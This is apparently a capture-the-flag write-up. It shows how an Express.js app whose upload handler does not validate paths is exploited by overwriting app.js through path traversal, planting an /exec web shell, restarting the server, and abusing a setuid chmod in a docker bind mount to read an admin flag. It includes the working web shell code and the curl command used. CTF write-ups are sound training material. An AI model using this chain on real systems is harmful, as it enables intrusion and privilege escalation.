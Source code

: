 # Homelab? More like Pwnlab!

### Information:
- express js code source
- webshell
- http://REDACTED


Source code:
```js
const express = require("express");
const path = require("path");
const fs = require("fs");

const app = express();
const PORT = 5555;

app.use(express.static("public"));

app.use(express.urlencoded({ extended: true }));
app.use(express.json());

app.set("view engine", "ejs");
app.set("views", path.join(__dirname, "views"));

app.get("/", (req, res) => {
  fs.readdir(path.join(__dirname, "public/uploads"), (err, files) => {
    if (err) {
      console.error("Could not list files:", err);
      res.status(500).send("Error listing files.");
      return;
    }
    res.render("index", { files });
  });
});

app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});

app.get("/download/:filename", (req, res) => {
  const filename = req.params.filename;
  const filepath = path.join(__dirname, "public/uploads", filename);
  res.download(filepath);
});

app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});

app.listen(PORT, () => {
  console.log(`Server running at http://localhost:${PORT}`);
});
```
We have the following:
- User: user, admin
- A container that run the application as `root`

```js
app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});
``` 

There is no validation on the file we will write

```js
app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});
```

Allow us to restart the server

After some try I realised I can write over `app.js`
I spike the application with a brand new method, without even a pull-request!

```js
app.post("/exec", (req, res) => {
    const { command } = req.body;
  
    if (!command) {
      return res.status(400).send("Command is required");
    }
  
    exec(command, (error, stdout, stderr) => {
      if (error) {
        return res.status(500).send(`Error executing command: ${error.message}`);
      }
      if (stderr) {
        return res.status(500).send(`stderr: ${stderr}`);
      }
      res.send(`<pre>${stdout}</pre>`); 
    });
  });
```
I upload `../../app.js` with the same code + my method `/exec`
I invoke  `/restart` to load up my version of this application

In the web shell as `user` I copy `chmod` into the bind mount between `docker` and `host`

![alt text](img/before.png)

```bash
curl -X POST https://REDACTED/exec -H "Content-Type: application/json" -d '{"command": "chmod u+s ./public/uploads/chmod"}'
```

![alt text](img/after.png)

And I just use it to change permission on the flag

```bash
./chmod 777 /home/admin/flag
```

![alt text](img/flag.png)